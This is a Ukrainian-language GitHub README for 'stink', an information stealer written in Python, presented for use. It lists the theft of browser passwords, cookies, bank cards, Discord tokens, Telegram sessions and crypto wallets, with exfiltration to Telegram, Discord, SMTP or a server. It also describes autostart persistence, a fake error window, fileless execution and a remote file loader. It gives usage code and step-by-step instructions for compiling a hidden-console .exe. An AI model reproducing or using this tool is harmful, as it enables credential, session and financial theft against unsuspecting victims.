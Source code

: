 # stink

Стилер всього лише в декілька рядків з відправкою до Telegram / Server / Discord / SMTP. Без залежностей, тільки вбудовані бібліотеки.

**Wiki:** https://github.com/FallenAstaroth/stink/wiki

## Опис
`stink` вже має значний функціонал, який тільки розширюватиметься.

## Навігація
* [Поточні можливості](#Поточні-можливості)
* [Приклад використання](#Приклад-використання)
  * [Стандартний](#Стандартний)
  * [Певні модулі](#Певні-модулі)
  * [Додаткові параметри](#Додаткові-параметри)
* [Створення exe](#Створення-exe)
  * [Створення виконуваного файла](#Створення-виконуваного-файла)
  * [За допомогою BAT](#За-допомогою-BAT)
  * [За допомогою CMD](#За-допомогою-CMD)

### Поточні можливості
1. Підтримка наступних браузерів:
   - Chrome
   - Opera
   - Opera GX
   - Edge
   - Brave
   - Vivaldi
   - Yandex (Частково)
2. Збір наступних даних:
   - Скріншот
   - Кукі
   - Паролі
   - Банківські карти
   - Історія
   - Закладки
   - IP-адреса
   - Конфігурація системи
   - Активні процеси
   - Токени Discord
   - Сесії Telegram
   - Хости FileZilla
   - Крипто гаманці:
       - Metamask
       - Phantom
       - Atomic
       - Exodus
       - Інші 10 гаманців
   - Конфіги Steam
3. Вбудовані методи відправлення:
   - Telegram
   - Server
   - Discord
   - SMTP
4. Підтримка мультипрофілів браузера.
5. Виконання в окремому потоці.
6. Виконання з використанням багатопроцесорності.
7. Можливість додання в автозапуск.
8. Вивід вікна з фейковою помилкою.
9. Виконання без створення будь яких файлів.
10. Підвантаження і запуск файлів за посиланням.

## Приклад використання
### Стандартний
```python
from stink import Stealer, Senders

if __name__ == '__main__':
    Stealer(senders=[Senders.telegram(token="YOUR_TOKEN", user_id=YOUR_ID)]).run()
```
### Певні модулі

Приклад зі збором тільки системних даних і скріншота.
```python
from stink import Stealer, Features, Senders

if __name__ == '__main__':
    Stealer(
        senders=[
            Senders.telegram(token="YOUR_TOKEN", user_id=YOUR_ID)
        ], 
        features=[
            Features.system,
            Features.screenshot
        ]
    ).run()
```
### Додаткові параметри

- `features` - список модулів з `stink.Features`:

  - `passwords` - збір паролів.

  - `cookies` - збір кукі.

  - `cards` - збір банківських карт.

  - `history` - збір історії пошуку.

  - `bookmarks` - збір закладок.

  - `extensions` - збір розширень браузера.

  - `processes` - збір активних процесів.

  - `system` - збір конфігурації системи.

  - `screen` - скріншот.

  - `discord` - збір токенів Discord.

  - `telegram` - збір сесій Telegram.

  - `filezilla` - збір хостів FileZilla.

  - `wallets` – збір крипто гаманців.

  - `steam` - збір конфігів Steam.


- `utils` - список утиліт з `stink.Utils`:

  - `autostart` - додання в автозапуск.

  - `message` - вивід фейкового [вікна помилки](https://github.com/FallenAstaroth/stink/wiki/Fake-error).
  

- `senders` - список способів надсилання з `stink.Senders`:

  - `server` - відправка на [сервер](https://github.com/FallenAstaroth/stink/wiki/Server).

  - `telegram` - відправка в [Telegram](https://github.com/FallenAstaroth/stink/wiki/Telegram-bot).

  - `discord` - відправка в [Discord](https://github.com/FallenAstaroth/stink/wiki/Discord-hook).

  - `smtp` - відправка на [пошту](https://github.com/FallenAstaroth/stink/wiki/Smtp).


- `loaders` - підвантажувачі файлів з `stink`:

  - `Loader` - універсальний [підвантажувач](https://github.com/FallenAstaroth/stink/wiki/Files-loader).

## Створення exe
Python являється інтерпретованою мовою програмування, тому ми спочатку транслюємо його в C, а потім скомпілюємо в .exe файл.
Для цього нам знадобиться Nuitka.

### Створення виконуваного файла

1. [Завантажуємо](https://github.com/FallenAstaroth/stink/archive/refs/heads/master.zip) архів.
2. Розпаковуємо архів і переходимо в директорію stink-master.
3. Створюємо test.py (або будь-яку іншу назву) файл в цій же директорії з наступним кодом:
```python
from stink import Stealer, Senders

if __name__ == '__main__':
    Stealer(senders=[Senders.telegram(token="YOUR_TOKEN", user_id=YOUR_ID)]).run()
```

### За допомогою BAT
1. Запускаємо compiler.bat.

### За допомогою CMD
1. Відкриваємо `cmd`.
2. Прописуємо команду:
```
pip install virtualenv
```
3. Переходимо в папку з файлом `test.py`:
```
cd path\to\file
```
4. Створюємо віртуальне оточення і активуємо його:
```
virtualenv venv
```
```
venv\Scripts\activate
```
5. Встановлюємо Nuitka:
````
pip install Nuitka==0.6.16.4
````
6. Для зменшення розміру файла додатково встановлюємо Zstandard (опціонально):
```
pip install zstandard==0.17.0
```
7. Прописуємо команду:
```
nuitka --onefile --plugin-enable=multiprocessing --windows-disable-console test.py
```

Після виконання команди отримуємо test.exe файл із прихованою консоллю.
